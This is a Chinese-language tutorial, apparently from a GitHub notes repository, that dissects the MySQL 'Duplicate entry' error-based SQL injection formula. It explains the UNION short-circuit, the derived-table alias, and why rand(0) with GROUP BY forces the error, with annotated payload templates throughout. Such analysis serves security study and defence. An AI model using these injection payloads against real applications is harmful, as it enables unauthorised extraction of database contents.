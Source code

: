 # MySQL注入-重复条目报错回显注入公式原理分析

网上对于DuplicateEntry报错回显注入公式一般是如下的形式
```SQL
1' and 1=2 union select 1 from (select count(*),concat(floor(rand(0)*2),(单值式爆破语句))a from information_schema.tables group by a)b#
```


注入后数据库最终执行的语句类似以下格式：
```SQL
SELECT ... 
FROM ... 
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),
        CONCAT(
            FLOOR(RAND(0)*2),
            ( 单值式注入语句 ) 
        )a  
    FROM information_schema.tables  
    GROUP BY a 
) b--
```

这个公式有3个要点
1. 构造布尔断路引发的并联查询，目的是断路掉前面的查询，把查询流程完全引导到并联查询（union）语句中离去。payload为：
 a' and 1=2 union select
2. 嵌套优先报错的from子查询：由于并联查询(union)要求前后的列数目一致，需要把先执行的子查询中的duplicate entry错误抢在union select的列数不一致错误之前触发。这样列数多少就无关紧要了——因为代码永远不会执行到那就提前报错了。攻击载荷结构为: uinon
select 1 from ( 会产生duplicate entry的子查询语句 )b -- 。这里MySQL要求派生表必须提供别名（"Every derived table must have its own alias"），否则报错
3. 构造产生duplicate entry错误的查询。为什么会产生Duplicate entry错误呢？ 
知乎上[路西法同学对Duplicate entry的产生原因](http://www.zhihu.com/question/21031129)分析非常清晰。
根据MySQL手册，rand()不可以作为ORDER BY的条件字段， 同理也不可以为group by的。上面这个mysql的bug的主要问题是获取的值不确定又可重复。同时又要来操作结果。值得注意的是，如果没有重新刷一次结果（例子中用的是count(*)来统计结果），单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),那么也不会报错 ，所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）
整理这段注入代码的构造思路如下：

```SQL
...
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),    ##刷新
        CONCAT(      ##制造具有随机名称的字段
            FLOOR(RAND(0)*2),    ##制造随机数
            ( 单值式注入语句 )   ##真正需要执行的SQL指令，必须是单值式SQL命令
        )a           ##为制造出来的随机字段创建别名
    FROM information_schema.tables  
    GROUP BY a       ##利用制造出来的随机字段分组
) b--                ##MySQL要求派生表必须提供别名
```


 

 
